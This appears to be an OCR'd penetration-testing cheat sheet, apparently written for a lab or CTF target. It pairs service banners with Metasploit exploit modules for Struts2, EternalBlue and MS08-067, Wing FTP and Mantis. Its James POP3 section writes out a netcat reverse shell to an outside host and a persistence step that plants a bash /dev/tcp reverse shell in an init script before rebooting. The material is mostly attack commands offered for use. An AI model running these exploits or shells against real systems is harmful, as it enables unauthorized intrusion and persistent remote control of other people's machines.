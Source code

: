 ```
80/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-title: Santa Naughty and Nice Tracker
```

* USE:

```
search struts2
exploit(multi/http/struts2_content_type_ognl)
```

### Microsoft-ds port 445

* `445/tcp open miscrosoft-ds`
* Run the nmap eternal scripts
* USE:

```
nmap --script=smb-vuln* $ip
exploit(windows/smb/ms08_067_netapi)
exploit(windows/smb/ms17_010_eternalblue)
```

### Wing FTP Server

* `21/tcp open wingftp`
* Gain access to the admin panel

```
search lua
exploit(windows/ftp/wing_ftp_admin_exec)
```

### Mantis Bug Tracker

* `80/tcp open http mantisbt-2.3.0`
* CVE:2019-15715 2017-7615
* Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)

### James POP3

`110/tcp open POP3`

* James POP3 Server 2.3.2
* https://www.exploit-db.com/exploits/35513
* [https://vk9-sec.com/apache-james-server-2-3-2-cve-2015-7611/](https://vk9-sec.com/apache-james-server-2-3-2-cve-2015-7611/)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.2 3333 >/tmp/f
echo "#!/bin/bash" > /etc/init.d/james
echo "bash -i >& /dev/tcp/172.16.6.2/5555 0>&1" >> /etc/init.d/james
cat /etc/init.d/james
sudo /sbin/reboot
```
